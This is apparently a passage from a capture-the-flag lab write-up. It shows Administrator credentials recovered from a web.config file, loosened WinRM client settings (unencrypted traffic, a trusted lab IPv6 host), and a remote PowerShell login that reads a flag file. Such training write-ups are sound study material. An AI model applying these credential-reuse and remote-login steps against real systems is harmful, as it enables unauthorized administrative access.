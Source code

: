 Local credentials

- name: Administrator
- password: EverybodyWantsToWorkAtP.O.O.

### Foothold

Remember that we previously discovered WinRM was listening on port 5985 and IPv6.

First, we need to setup our local attacker Windows 10 machine to trust the remote host and allow unencrypted connections (port 5985 is HTTP only).

```
PS C:\Windows\system32> winrm set winrm/config/client '@{AllowUnencrypted="true"}'
PS C:\Windows\system32> winrm set winrm/config/client '@{TrustedHosts="[dead:babe::1001]"}'
Client
    NetworkDelayms = 5000
    URLPrefix = wsman
    AllowUnencrypted = true
    Auth
        Basic = true
        Digest = true
        Kerberos = true
        Negotiate = true
        Certificate = true
        CredSSP = false
    DefaultPorts
        HTTP = 5985
        HTTPS = 5986
    TrustedHosts = [dead:babe::1001]
```

Then we'll log in using the credentials we found in web.config

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'EverybodyWantsToWorkAtP.O.O.' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('Administrator', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential

[[dead:babe::1001]]: PS C:\Users\Administrator> cd desktop
[[dead:babe::1001]]: PS C:\Users\Administrator\desktop> dir

    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/26/2018   5:29 PM             37 flag.txt


[[dead:babe::1001]]: PS C:\Users\Administrator\desktop> type flag.txt
POO{ff87c4fe10e2ef09...}
```
